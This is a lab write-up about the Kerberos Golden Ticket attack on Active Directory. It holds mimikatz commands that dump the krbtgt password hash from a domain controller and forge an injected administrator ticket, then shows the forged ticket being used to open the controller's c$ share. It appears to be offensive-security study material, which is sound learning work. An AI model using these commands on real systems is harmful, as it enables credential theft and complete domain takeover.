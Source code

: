 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking if the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

## References

{% embed url="https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=1515" %}

